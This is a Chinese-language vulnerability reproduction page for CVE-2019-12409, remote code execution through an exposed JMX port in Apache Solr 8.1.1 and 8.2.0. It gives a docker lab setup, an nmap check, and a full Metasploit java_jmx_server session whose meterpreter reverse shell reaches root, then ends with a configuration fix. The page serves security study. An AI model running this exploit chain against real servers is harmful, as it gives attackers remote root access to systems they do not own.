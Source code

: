 # Apache Solr JMX服务 RCE  CVE-2019-12409

## 漏洞描述

Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。



## 影响版本

> [!NOTE]
>
> Apache Solr 8.1.1
>
> Apache Solr 8.2.0



## 环境搭建

[下载 Apache Solr 8.2.0](http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip)

也可以docker搭建

```
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可



## 漏洞复现

查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置是否为“Ture”，如果为Ture，则存在漏洞

查看漏洞端口18983是否开放

> [!NOTE]
>
> nmap xxx.xxx.xxx.xxx -p 18983

![](http://wikioss.peiqi.tech/vuln/solr-20.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)  
```

![](http://wikioss.peiqi.tech/vuln/solr-21.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

### 漏洞修复

将solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置为false，然后重启Solr服务。